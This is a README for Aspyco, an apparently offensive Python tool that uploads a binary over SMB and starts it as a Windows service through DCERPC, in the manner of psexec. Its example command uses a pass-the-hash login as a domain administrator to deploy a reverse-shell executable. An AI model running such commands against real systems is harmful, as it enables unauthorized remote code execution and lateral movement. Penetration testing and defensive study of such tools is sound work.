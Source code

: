 # Aspyco

<div align="center">
  <br>
  <img src="https://img.shields.io/badge/Python-3.6+-informational">
  <br>
  <a href="https://twitter.com/intent/follow?screen_name=ProcessusT" title="Follow"><img src="https://img.shields.io/twitter/follow/ProcessusT?label=ProcessusT&style=social"></a>
  <br>
  <h1>
    Inject your own venom 💉
  </h1>
  <br><br>
</div>

> Aspyco is a python script that permits to upload a local binary through SMB on a remote host.<br />
> Then it remotely connects to svcctl named pipe through DCERPC to create and start the binary as a service.<br />
> <br />
> It's a psexec-like with custom execution !!
> <br />
<br>
<div align="center">
	<!--
<img src="future img" width="80%;">
	-->
</div>
<br>


## Changelog
<br />
V 1.0<br />
- Can inject custom payload on remote host

<br /><br />

## What da fuck is this ?
<br />
On Windows, RPC protocol permits to call remote functions.<br />
Remotely, you can connect on SMB named pipe to call functions with DCERPC protocol.<br />
In that way, you can upload a binary file through SMB and then call some functions<br />
to create a service to execute your payload.
<br />
<br />

## Installation
<br>
From Pypi :
<br><br>

```python
coming soon
```

<br>
From sources :
<br><br>

```python
git clone https://github.com/Processus-Thief/Aspyco
cd Aspyco
python3 aspyco.py -hashes :ed0052e5a66b1c8e942cc9481a50d56 DOMAIN.local/administrator@10.0.0.1 custom_reverse_shell.exe
```

<br><br>


## Usage
<br>
Aspyco uses Impacket syntax :
<br><br>

```python
usage: launcher.py [-h] [-hashes LMHASH:NTHASH] target payload

Upload and start your custom payloads remotely !

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
  payload               Your custom binary file

options:
  -h, --help            show this help message and exit
  -hashes LMHASH:NTHASH	NTLM hashes, format is LMHASH:NTHASH
```

<br>
<br>

## Example

<br>

```python
python3 aspyco.py -hashes :ed0052e5a66b1c8e942cc9481a50d56 DOMAIN.local/administrator@10.0.0.1 custom_reverse_shell.exe
```

<br>
<br>
